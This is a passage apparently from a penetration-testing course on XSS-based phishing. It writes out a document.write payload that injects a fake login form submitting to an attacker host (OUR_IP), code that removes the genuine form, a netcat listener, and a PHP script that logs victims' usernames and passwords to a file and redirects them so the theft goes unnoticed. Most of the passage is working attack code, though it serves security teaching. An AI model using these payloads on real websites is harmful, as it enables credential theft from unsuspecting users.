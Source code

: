 ```html
<h3>Please login to continue</h3>
<form action=http://OUR_IP>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```

```js
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```

## Cleaning Up
```js
document.getElementById('urlform').remove();
```

```js
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
document.getElementById('urlform').remove();
```

We also see that there's still a piece of the original HTML code left after our injected login form. This can be removed by simply commenting it out, by adding an HTML opening comment after our XSS payload:

```
...PAYLOAD... <!-- 
```

## Credential Stealing
So, let us start a simple netcat server and see what kind of request we get when someone attempts to log in through the form. To do so, we can start listening on port 80 in our Pwnbox, as follows:

```
$ sudo nc -lvnp 80
```

However, as we are only listening with a netcat listener, it will not handle the HTTP request correctly, and the victim would get an Unable to connect error, which may raise some suspicions. So, we can use a basic PHP script that logs the credentials from the HTTP request and then returns the victim to the original page without any injections. In this case, the victim may think that they successfully logged in and will use the Image Viewer as intended.


The following PHP script should do what we need, and we will write it to a file on our VM that we'll call index.php and place it in /tmp/tmpserver/
```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```
